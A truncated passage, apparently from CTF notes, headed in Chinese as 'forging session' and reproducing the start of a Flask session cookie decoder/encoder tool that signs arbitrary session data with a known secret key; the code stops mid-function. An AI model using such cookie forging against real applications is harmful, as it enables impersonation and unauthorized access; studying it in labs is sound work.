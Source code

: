 ```python

```

### 伪造session

```
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3:  # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4:  # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else:  # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4:  # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e

        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if (secret_key == None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

```
